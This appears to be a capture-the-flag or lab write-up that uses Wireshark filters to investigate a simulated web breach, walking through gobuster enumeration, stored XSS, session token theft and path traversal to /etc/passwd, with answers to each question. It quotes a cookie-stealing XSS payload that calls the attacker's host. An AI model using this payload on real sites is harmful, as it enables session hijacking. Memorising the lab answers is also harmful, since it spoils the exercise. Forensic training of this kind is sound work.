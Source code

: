 # Synopsis
In recent days, ShopSphere, a prominent online retail platform, has experienced unusual administrative login activity during late-night hours. These logins coincide with an influx of customer complaints about unexplained account anomalies, raising concerns about a potential security breach. Initial observations suggest unauthorized access to administrative accounts, potentially indicating deeper system compromise.

Your mission is to investigate the captured network traffic to determine the nature and source of the breach. Identifying how the attackers infiltrated the system and pinpointing their methods will be critical to understanding the attack's scope and mitigating its impact.

## Question 1 Identifying an attacker's IP address is crucial for mapping the attack's extent and planning an effective response. What is the attacker's IP address?
When beginning the investigation into the web attack we can determine the Malicious ip in question through its interaction with the web server. This can be identified in two ways, we know the user is targeting the administrative login, the attacker could identify this login functionality through searching for
common naming conventions specifically for admin functioanlity in a website. This can be done through passing a targeted wordlist to gobuster, a brute force tool used to identify pages on a website. We can see that a particular ip has made many requests to different pages all related to the term admin. This can be filtered using `http.request.full_uri contains "admin"`

![image](https://github.com/user-attachments/assets/46a5708a-bc16-4b00-b690-0076f38b64bc)

Oddly there are two IP's available in these results, this is common in packet captures of real web servers, it is crucial we can identify which of the two IP's is
a safe user and which IP belongs to a malicious actor. Looking closely at the packets can help us determine that one of the IP's has a User-Agent related to the fireox browser whilst the other users User-Agent belongs to gobuster, which indicates the attacker is trying to enumerate the login functionality.

Safe User-Agent:
![image](https://github.com/user-attachments/assets/a018b5ff-48ac-4b77-b4af-253876791a29)

Malicious TUser-Agent:
![image](https://github.com/user-attachments/assets/00692363-8af7-4ad2-82f4-d5177960b444)

Answer:111.224.180.128

## Question 2 The attacker used a directory brute-forcing tool to discover hidden paths. Which tool did the attacker use to perform the brute-forcing?
Answered previously we know the brute forcing tool from the User-Agent
Answer:gobuster

## Question 3 Cross-Site Scripting (XSS) allows attackers to inject malicious scripts into web pages viewed by users. Can you specify the XSS payload that the attacker used to compromise the integrity of the web application?

With knowledge of the attackers IP and the use of XSS we can filter for known XSS tags such as `<script>` within the http protocol, to narrow this down to finding
XSS payloads being submitted we can look for POST requests being made, where the payload is supplied through a form input.

The final query is `ip.src == 111.224.180.128 and http contains "script" and http.request.method == POST`
![image](https://github.com/user-attachments/assets/e423c081-e70a-49b4-8cf1-d872c378fa40)

Drilling down into the request we can see a parameter review, likely used to submit reviews, with an input which has an XSS payload which after URL decoding the
characters is <script>fetch('http://111.224.180.128/' + document.cookie);</script>

Answer: <script>fetch('http://111.224.180.128/' + document.cookie);</script>

## Question 4 Pinpointing the exact moment an admin user encounters the injected malicious script is crucial for understanding the timeline of a security breach. Can you provide the UTC timestamp when the admin user first visited the page containing the injected malicious script?
With knowledge of a stored XSS being available on the page being submitted to, we can use the page name as a way to identify any traffic to that page, anything occuring after the stored xss is likely to have triggered the XSS payload and their cookie has been sent to the attacker.

Filter: `http.request.full_uri contains "reviews.php"`

![image](https://github.com/user-attachments/assets/f77ad11f-04a5-4252-8e58-63c4b4c60613)


We can see that after the stored XSS the IP 135.143.142.5 accessed the reviews page, triggering the XSS payload

Answer: 2024-03-29 12:09

## Question 5 The theft of a session token through XSS is a serious security breach that allows unauthorized access. Can you provide the session token that the attacker acquired and used for this unauthorized access?

Since the server likely uses Cookies to maintain sessions the token is likely being transmitted by the clients browser each time they request the page it will be sent to the server, unless the attacker was able to eavesdrop between the server and client and view the packets internally, the only other way they can access the token is to send it over as they have. We can view the Traffic and therefore can see the Cookie section contains the clients cookie
![image](https://github.com/user-attachments/assets/87505fd7-24e9-4451-82cd-12f2deea0617)

Answer: lqkctf24s9h9lg67teu8uevn3q

## Question 6 Identifying which scripts have been exploited is crucial for mitigating vulnerabilities in a web application. What is the name of the script that was exploited by the attacker?
We can see in the traffic that the attacker made a strange request using directory traversal sequences, indicative of a Path Traversal attack.

Typically when an attacker wants to access a sensitive system file they will attempt to use Directory Traversal sequences to move from the intended folder into any
file on the web servers filesystem. These utilise the `../` notation to represent moving up a directory in the file system, these can be used many times to traverse many parent directories and if additional ones are present they will remain in the final top directory known as the root. Then they can supply their own
filenames to common files on the server to extract information for further pivoting.

Knowing the request is likely to contain a directory traversal sequence we can filter for this in the request using `http.request.full_uri contains "../"
We see a result which uses a directory traversal vulnerabiity to access the `/etc/passwd` file used to store usernames and their hashes. Giving the attacker
access to usernames he can possibly use to perform lateral movement or privilege escalation
![image](https://github.com/user-attachments/assets/41f03ce2-07f5-4b32-ab61-354d10562b93)

We can see the page the attacker has submitted this to.

Answer: log_viewer.php
## Question 7 Exploiting vulnerabilities to access sensitive system files is a common tactic used by attackers. Can you identify the specific payload the attacker used to access a sensitive system file?
Answered in the previous question the file /etc/passwd was accessed and we can verify if the attacker successfully accessed the file.

Following the HTTP stream we can see the server returned the files contents
![image](https://github.com/user-attachments/assets/c0f81666-65a8-470b-86f8-74741c7286df)

Answer: /etc/passwd

# Conclusion
This lab involved using wireshark filters to identify several web attacks being conducted on a network to determine what impact the attacker had and what steps were taken. This involved outlining the attack chain utilised and the artefacts that were obtained by the attacker.


